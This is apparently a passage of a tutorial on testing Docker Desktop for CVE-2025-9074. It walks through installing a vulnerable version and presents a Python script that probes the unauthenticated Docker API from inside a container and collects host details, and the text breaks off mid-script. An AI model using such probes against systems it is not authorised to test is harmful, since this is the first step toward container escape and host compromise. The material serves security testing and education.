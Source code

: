 First, you'll need to download a vulnerable version of Docker Desktop. The vulnerability existed in Docker Desktop versions prior to 4.44.3, so any version like 4.44.0, 4.43.x, or earlier will work for testing purposes. You can download older versions from Docker's release archives, though you should only do this in an isolated testing environment.

Once you have the vulnerable Docker Desktop version installed on a Windows system, you can verify the vulnerability exists by checking if the Docker API is accessible from within containers. The key indicator is whether containers can reach the Docker daemon at 192.168.65.7:2375 without authentication.

### Creating the Test Container

Launch a Python container with an interactive shell to serve as your testing environment:

```bash
docker run --rm -it python:3.11-alpine sh
```

Inside the container, install the requests library which will be used to interact with the Docker API:

```bash
pip install requests
```

### Vulnerability Test Script

Create a Python script to test for the presence of CVE-2025-9074. This script safely checks if the vulnerable API endpoint is accessible without performing any destructive actions:

```python
#!/usr/bin/env python3
"""
CVE-2025-9074 Vulnerability Test Script
EDUCATIONAL USE ONLY - Test only on systems you own
"""
import requests
import json

def test_vulnerability():
    target_ip = "192.168.65.7"
    api_port = 2375
    base_url = f"http://{target_ip}:{api_port}"
    
    print(f"[*] Testing for CVE-2025-9074 vulnerability")
    print(f"[*] Target: {base_url}")
    
    try:
        # Test basic API connectivity
        print("[*] Step 1: Testing API accessibility...")
        response = requests.get(f"{base_url}/_ping", timeout=3)
        
        if response.status_code == 200 and response.text.strip() == "OK":
            print("[+] VULNERABLE: Docker API is accessible from container!")
            print("[+] CVE-2025-9074 vulnerability confirmed")
            
            # Gather system information to prove access
            print("\n[*] Step 2: Gathering system information...")
            info_response = requests.get(f"{base_url}/info", timeout=5)
            
            if info_response.status_code == 200:
                info = info_response.json()
                print(f"[+] Docker Version: {info.get('ServerVersion')}")
                print(f"[+] Host OS: {info.get('OperatingSystem')}")
                print(f"[+] Architecture: {info.get('Architecture')}")
                print(f"[+] Total Memory: {info.get('MemTotal', 0) // (1024*1024*1024)} GB")
            
```